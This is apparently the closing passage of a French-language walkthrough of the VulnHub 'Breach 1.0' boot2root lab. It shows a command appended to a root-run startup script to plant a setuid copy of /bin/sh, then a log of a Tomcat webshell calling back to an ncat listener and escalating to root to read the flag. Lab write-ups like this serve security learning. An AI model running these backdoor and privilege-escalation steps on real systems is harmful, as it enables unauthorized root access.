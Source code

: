 ```bash
echo "cp /bin/sh /tmp/rootshell; chmod 4755 /tmp/rootshell" >> portly.sh
```

On reboot, on relance notre webshell Tomcat et on trouve bien le binaire setuid qu'on a demandé :

```shellsession
$ ncat -l -p 9999 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.110.140.
Ncat: Connection from 192.168.110.140:44896.
ls -al /tmp
total 144
drwxrwxrwt  6 root    root      4096 Nov  9 12:22 .
drwxr-xr-x 22 root    root      4096 Nov  9 09:32 ..
-rwsr-xr-x  1 root    root    121272 Nov  9 12:21 gotroot
drwxr-xr-x  2 tomcat6 tomcat6   4096 Nov  9 12:19 hsperfdata_tomcat6
drwxrwxrwt  2 root    root      4096 Nov  9 12:19 .ICE-unix
drwxr-xr-x  2 tomcat6 root      4096 Nov  9 12:19 tomcat6-tomcat6-tmp
drwxrwxrwt  2 root    root      4096 Nov  9 12:19 .X11-unix
python3 -c 'import pty; pty.spawn("/bin/sh")'
$ /tmp/gotroot
/tmp/gotroot
# id
id
uid=104(tomcat6) gid=112(tomcat6) euid=0(root) groups=0(root),112(tomcat6)
# cd /root
cd /root
# ls -al
ls -al
total 60
drwx------  4 root root  4096 Jun 12  2016 .
drwxr-xr-x 22 root root  4096 Nov  9 09:32 ..
-rw-------  1 root root   115 Jun 12  2016 .bash_history
-rw-r--r--  1 root root  3106 Feb 19  2014 .bashrc
drwx------  2 root root  4096 Jun  6  2016 .cache
-rw-r--r--  1 root root   840 Jun 11  2016 .flag.txt
-rw-r--r--  1 root root 23792 Jun  4  2016 flair.jpg
-rw-r--r--  1 root root   140 Feb 19  2014 .profile
drwxr-xr-x  2 root root  4096 Jun  5  2016 .rpmdb
-rw-r--r--  1 root root    66 Jun  4  2016 .selected_editor
# cat .flag.txt
cat .flag.txt
-----------------------------------------------------------------------------------

______                     _     __   _____      _____ _          _____          _ 
| ___ \                   | |   /  | |  _  |    |_   _| |        |  ___|        | |
| |_/ /_ __ ___  __ _  ___| |__ `| | | |/' |______| | | |__   ___| |__ _ __   __| |
| ___ \ '__/ _ \/ _` |/ __| '_ \ | | |  /| |______| | | '_ \ / _ \  __| '_ \ / _` |
| |_/ / | |  __/ (_| | (__| | | || |_\ |_/ /      | | | | | |  __/ |__| | | | (_| |
\____/|_|  \___|\__,_|\___|_| |_\___(_)___/       \_/ |_| |_|\___\____/_| |_|\__,_|


-----------------------------------------------------------------------------------
Congrats on reaching the end and thanks for trying out my first #vulnhub boot2root!

Shout-out to knightmare, and rastamouse for testing and g0tmi1k for hosting.
```
